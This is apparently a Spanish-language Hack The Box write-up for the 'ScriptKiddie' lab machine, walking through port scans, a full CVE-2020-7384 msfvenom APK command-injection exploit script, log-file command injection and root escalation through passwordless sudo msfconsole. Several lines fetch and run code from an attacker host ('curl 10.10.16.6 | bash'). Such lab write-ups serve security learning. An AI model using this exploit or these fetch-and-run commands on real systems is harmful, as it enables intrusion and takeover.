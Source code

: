 ```yaml
---
layout: single
title: ScriptKiddie - Hack The Box
excerpt: "ScriptKiddie is an easy difficulty Linux machine that presents a Metasploit vulnerability ([CVE-2020-7384](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-7384)), along with classic attacks such as OS command injection and an insecure passwordless `sudo` configuration. Initial foothold on the machine is gained by uploading a malicious `.apk` file from a web interface that calls a vulnerable version of `msfvenom` to generate downloadable payloads. Once shell is obtained, lateral movement to a second user is performed by injecting commands into a log file which provides unsanitized input to a Bash script that is triggered on file modification. This user is allowed to run `msfconsole` as `root` via `sudo` without supplying a password, resulting in the escalation of privileges."
date: 2024-04-19
classes: wide
header:
  teaser: /assets/images/htb-script/script.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags: 
  - Msfvenom
  - Script
  - Pivoting
---
```


![](/assets/images/htb-script/script.png)

ScriptKiddie is an easy difficulty Linux machine that presents a Metasploit vulnerability ([CVE-2020-7384](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-7384)), along with classic attacks such as OS command injection and an insecure passwordless `sudo` configuration. Initial foothold on the machine is gained by uploading a malicious `.apk` file from a web interface that calls a vulnerable version of `msfvenom` to generate downloadable payloads. Once shell is obtained, lateral movement to a second user is performed by injecting commands into a log file which provides unsanitized input to a Bash script that is triggered on file modification. This user is allowed to run `msfconsole` as `root` via `sudo` without supplying a password, resulting in the escalation of privileges. 

## Portscan

```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n 10.10.10.226 -oG allports                                     
[sudo] contraseña para kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-18 11:48 CEST
Initiating Ping Scan at 11:48
Scanning 10.10.10.226 [4 ports]
Completed Ping Scan at 11:48, 0.08s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:48
Scanning 10.10.10.226 [65535 ports]
Discovered open port 22/tcp on 10.10.10.226
Discovered open port 5000/tcp on 10.10.10.226
Completed SYN Stealth Scan at 11:48, 13.04s elapsed (65535 total ports)
Nmap scan report for 10.10.10.226
Host is up, received echo-reply ttl 63 (0.12s latency).
Scanned at 2024-04-18 11:48:21 CEST for 13s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
5000/tcp open  upnp    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.38 seconds
           Raw packets sent: 68669 (3.021MB) | Rcvd: 67851 (2.714MB)

```
Y con esto analizamos los puertos abiertos:
```
nmap -sCV -p22,5000 -Pn 10.10.10.226 -oN targeted                                                                                                                                                                 130 ⨯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-18 11:54 CEST
Nmap scan report for 10.10.10.226
Host is up (0.053s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.21 seconds

```
## Analisis Web

Vemos que nos lleva a una pagina:
![](/assets/images/htb-script/pag1.png)

Vemos que la segunda introduccion de datos juega con msfvenom,  asi que vamos a buscar con searchsploit y encontramos un exploit. Nos lo llevamos a nuestro equipo y vammos a ver que hace:
```
# Exploit Title: Metasploit Framework 6.0.11 - msfvenom APK template command injection
# Exploit Author: Justin Steven
# Vendor Homepage: https://www.metasploit.com/
# Software Link: https://www.metasploit.com/
# Version: Metasploit Framework 6.0.11 and Metasploit Pro 4.18.0
# CVE : CVE-2020-7384

#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b64encode

# Change me
payload = 'curl 10.10.16.6 | bash'

# b64encode to avoid badchars (keytool is picky)
payload_b64 = b64encode(payload.encode()).decode()
dname = f"CN='|echo {payload_b64} | base64 -d | bash #"

print(f"[+] Manufacturing evil apkfile")
print(f"Payload: {payload}")
print(f"-dname: {dname}")
print()

tmpdir = tempfile.mkdtemp()
apk_file = os.path.join(tmpdir, "evil.apk")
empty_file = os.path.join(tmpdir, "empty")
keystore_file = os.path.join(tmpdir, "signing.keystore")
storepass = keypass = "password"
key_alias = "signing.key"

# Touch empty_file
open(empty_file, "w").close()

# Create apk_file
subprocess.check_call(["zip", "-j", apk_file, empty_file])

# Generate signing key with malicious -dname
subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass,
                       "-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname])

# Sign APK using our malicious dname
subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file,
                       "-storepass", storepass, "-keypass", keypass, apk_file, key_alias])

print()
print(f"[+] Done! apkfile is at {apk_file}")
print(f"Do: msfvenom -x {apk_file} -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null")

```
Hemos sustituido el comando para ejecutarnos una bash en nuestra ip, ahora le damos privilegios para poder meterlo en la página(sudo chown kali:kali -R /tmp/tmptgdoeu2s/)
Nos montamos un servidor en python y en escucha por la 443 y enviamos el exploit.

## Escalada de privilegios

Ahora ya hemos accedido al sistema.
Podemos encontrar la flag de usuario.
Vemos que hay un script hackers que no podemos leer pero si usar, y en el directorio logs encontramos el script de la app. La cual tambien usa scanloosers.sh en el directorio de otro usuario llamado pwn.
```
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
```
Aqui vemos que coje del script de hackers a partir del tercer input, lo que nos puede llevar a una posible inyeccion

```
echo "a b 10.10.16.6; curl 10.10.16.6 | bash #" > hackers
```
Si introducimos esto mientras seguimos en escucha en otra terminal por el puerto 443 y con un servidor en python3
Ahora hemos accedido al usuario pwn, vamos a ver que privilegios tiene este usuario:

```
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole

```
Podemos ejecutar el metasploit con root,  y dentro de metasploit podemos usar una consola en la que ejecutar comandos y como lo hemos iniciado con root podremos usar comandos de root, y por tanto encontrar la flag de root:

```
msf6 > irb
stty: 'standard input': Inappropriate ioctl for device
[*] Starting IRB shell...
[*] You are in the "framework" object

system("whoami")
Switch to inspect mode.
irb: warn: can't alias jobs from irb_jobs.
>> system("whoami")
root
system("bash")
=> true
>> system("bash")
whoami
root
cd /root
ls
root.txt
snap
cat root.txt
34e315f940c71771856d6c7d95c36340

```
Y ya lo tendriamos
